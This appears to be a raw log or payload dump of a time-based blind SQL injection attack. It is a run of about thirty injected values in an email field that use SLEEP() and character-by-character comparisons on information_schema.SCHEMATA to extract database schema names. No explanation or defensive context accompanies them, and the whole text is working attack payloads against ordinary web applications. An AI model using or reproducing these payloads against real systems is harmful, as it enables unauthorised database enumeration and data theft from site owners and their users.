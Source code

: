 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=109,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=97,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}